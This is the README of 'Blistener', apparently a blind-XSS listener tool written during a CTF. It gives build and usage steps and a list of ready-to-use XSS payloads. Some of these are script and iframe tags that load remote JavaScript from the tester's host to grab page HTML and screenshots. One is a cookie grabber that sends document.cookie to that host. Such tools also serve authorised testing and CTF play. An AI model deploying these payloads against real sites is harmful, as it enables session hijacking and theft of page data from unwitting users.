 # Blistener (Blind-XSS listener)

Code was written quickly during a CTF and should probably be refactored. Not going to change it for now since it's working. I'll refactor when I add new features to it.

It has 2 exploits, one which will take all data available on the page including the html code and the other which will also take a screenshot of the page as well as all the data on the page.


## Compiling

```
go build blistener.go
```

## Usage

1. Create an output directory where the listener will store html code and png images from the xss pages it identifies

2. Start the listener:
```
./blistener
```

3. Use one of the payloads to trigger an XSS 

## Exploit strings


```
# The normal payloads will grab all content from the page including the html source
<script src="http://<your host or ip>:8899/payload.js"></script>
<iframe src="http://<your host or ip>:8899/iframe.html"></iframe>


# The extended payloads do the same as the normal payloads except that they also take a screenshot of the page 
<script src="http://<your host or ip>:8899/payload-ext.js"></script>
<iframe src="http://<your host or ip>:8899/iframe-ext.html"></iframe>

# You call also use a normal request to make sure the XSS can be trigger such as:
<img src="http://<your host or ip>:8899/" />

# Simple cookie grabber
<img src=x onerror="new Image().src = `http://<your host or ip>:8899/?c=${document.cookie}`" />
```

_Note: The listener is on port 8899 by default, change to another port if you need._


## Example trigger

![example trigger](.github/img/example.png)


## Todo

- Answer to OPTIONS requests
- Add cli flags
- Refactor code
